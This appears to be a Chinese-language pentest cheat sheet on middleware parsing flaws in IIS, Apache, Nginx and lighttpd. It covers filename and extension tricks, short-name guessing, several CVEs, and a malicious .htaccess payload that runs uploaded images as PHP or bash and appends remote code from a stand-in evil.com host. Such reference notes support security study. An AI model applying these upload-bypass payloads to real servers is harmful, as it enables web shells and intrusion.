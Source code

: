```yaml
---

title: 中间件

date: 2023-12-26 02:01:50

tags:

---
```


------

[TOC]



<!--more-->

# IIS

## IIS 6.0

- - 后缀解析 `/xx.asp;.jpg`

    服务器默认不解析 `;` 号及其后面的内容，相当于截断。

- 目录解析 `/xx.asp/xx.jpg` (xx.asp目录下任意解析)

- 默认解析 `xx.asa` `xx.cer` `xx.cdx`

- PROPFIND 栈溢出漏洞

- RCE CVE-2017-7269

## IIS 7.0-7.5 / Nginx <= 0.8.37

在Fast-CGI开启状态下，在文件路径后加上 `/xx.php` ，即 `xx.jpg/xx.php` 会被解析为php文件。

## PUT漏洞

- 开启WebDAV
- 拥有来宾用户，且来宾用户拥有上传权限
- 可任意文件上传

## Windows特性

Windows不允许空格和点以及一些特殊字符作为结尾，创建这样的文件会自动重命名，所以可以使用 `xx.php[空格]` ， `xx.php.`， `xx.php/`， `xx.php::$DATA` 上传脚本文件。

## 文件名猜解

在支持NTFS 8.3文件格式时，可利用短文件名猜解目录文件。其中短文件名特征如下：

- 文件名为原文件名前6位字符加上 `~1` ，其中数字部分是递增的，如果存在前缀相同的文件，则后面的数字进行递增。
- 后缀名不超过3位，超过部分会被截断
- 所有小写字母均转换成大写的字母
- 文件名后缀长度大于等于4或者总长度大于等于9时才会生成短文件名，如果包含空格或者其他部分特殊字符，则无视长度条件

IIS 8.0之前的版本支持短文件名猜测的HTTP方法主要包括：DEBUG、OPTIONS、GET、POST、HEAD、TRACE六种，需要安装ASP.NET。而IIS 8.0之后的版本只能通过OPTIONS和TRACE方法猜测成功，但是没有ASP.NET的限制。

这种方法的局限性在于：

- 文件夹名前6位字符带点”.”，扫描程序会认为是文件而不是文件夹，最终出现误报
- 不支持中文文件名

这种方法可以通过命令 `fsutil behavior set disable8dot3 1` 关闭NTFS 8.3文件格式的支持来修复。

# Apache

## 后缀解析

`test.php.x1.x2.x3` （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析

## htaccess

当AllowOverride被启用时，上传启用解析规则的.htaccess

```
AddType application/x-httpd-php .jpg
php_value auto_append_file .htaccess
#<?php phpinfo();
Options ExecCGI
AddHandler cgi-script .jpg
Options +ExecCGI
AddHandler fcgid-script .gif
FcgidWrapper "/bin/bash" .gif
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://evil.com/evil-code.txt
```

## 目录遍历

配置 `Options +Indexes` 时Apache存在目录遍历漏洞。

## CVE-2017-15715

`%0A` 绕过上传黑名单。

## 4.15.2.5. lighttpd

```
xx.jpg/xx.php
```





# Nginx

## Fast-CGI关闭

在Fast-CGI关闭的情况下， Nginx 仍然存在解析漏洞： 在文件路径(xx.jpg)后面加上 `%00.php` ， 即 `xx.jpg%00.php` 会被当做 php 文件来解析

## Fast-CGI开启

在Fast-CGI开启状态下，在文件路径后加上 `/xx.php` ，则 `xx.jpg/xx.php` 会被解析为php文件

## CVE-2013-4547

```
a.jpg\x20\x00.php
```

## 配置错误

### 目录穿越

如果配置中存在类似 `location /foo { alias /bar/; }` 的配置时，`/foo../` 会被解析为 `/bar/../` 从而导致目录穿越的发生。

### 目录遍历

配置中 `autoindex on` 开启时，Nginx中存在目录遍历漏洞。
